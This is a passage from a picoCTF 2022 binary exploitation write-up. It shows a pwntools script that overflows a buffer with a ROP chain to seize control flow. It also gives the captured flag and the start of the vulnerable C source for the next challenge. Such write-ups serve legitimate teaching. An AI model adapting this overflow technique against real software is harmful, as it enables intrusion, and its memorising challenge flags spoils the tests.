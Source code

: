 ```py

# Get the raw bytes
rop_chain = rop.chain()

# Build payload
payload = flat({
    eip_offset: rop_chain

})

# Save payload to file
write('payload', payload)

# Start a new process
io = start()

# PWN
io.sendlineafter(b'string:', payload)

# Receive the flag
io.interactive()
```

![IMG](/assets/images/picoctf2022-binexp/bof1.png)

Flag:
```
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```

# buffer overflow 2
## Description
Control the return address and arguments
This time you'll need to control the arguments to the function you return to!

This challenge provided a binary and its C source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
```
